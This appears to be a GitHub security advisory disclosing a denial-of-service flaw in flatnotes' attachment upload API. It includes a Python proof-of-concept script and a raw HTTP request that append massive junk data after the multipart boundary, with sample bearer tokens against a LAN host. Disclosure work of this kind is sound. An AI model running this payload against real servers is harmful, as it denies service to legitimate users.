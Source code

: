 ### Description
Anyone who can log in to flatnotes and upload images through the function can cause DOS , which can prevent others from using it, other API interfaces from being accessed, and server DOS attacks

### Impact  
![image](https://github.com/user-attachments/assets/3f75eeb5-c5cd-4570-92b6-3e3b3fdab0f5)
### Proof of Concept 1
```
import requests

url = "http://192.168.137.11:8080/api/attachments"

headers = {
    "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "multipart/form-data",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Origin": "http://192.168.137.11:8080",
    "Referer": "http://192.168.137.11:8080/new",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc",
    "Connection": "keep-alive"
}

data = (
    "------WebKitFormBoundaryN20AMdlOKTaspeAy\r\n"
    "Content-Disposition: form-data; name=\"file\"; filename=\"sword.png\"\r\n"
    "Content-Type: image/png\r\n\r\n" + file_content+ "\r\n"
    "------WebKitFormBoundaryN20AMdlOKTaspeAy--"+"0123456789"*50000+"\r\n"
)

response = requests.post(url, headers=headers, data=data)

```

### Proof of Concept 2
```
POST /api/attachments HTTP/1.1
Host: 192.168.137.11:8080
Content-Length: 1440589
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryN20AMdlOKTaspeAy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://192.168.137.11:8080
Referer: http://192.168.137.11:8080/new
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Connection: keep-alive

------WebKitFormBoundaryN20AMdlOKTaspeAy
Content-Disposition: form-data; name="file"; filename="sword.png"
Content-Type: image/png

PNG
ND®B`
------WebKitFormBoundaryN20AMdlOKTaspeAy--
1234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567[attenation:A large amount of useless data]
```
### Attack Result 
![image](https://github.com/user-attachments/assets/c76d1da4-93d8-4a22-9a86-115d65c51a1e)




### refer 
[Github project](https://github.com/dullage/flatnotes)  
[origin issue](https://github.com/dullage/flatnotes/issues/259)


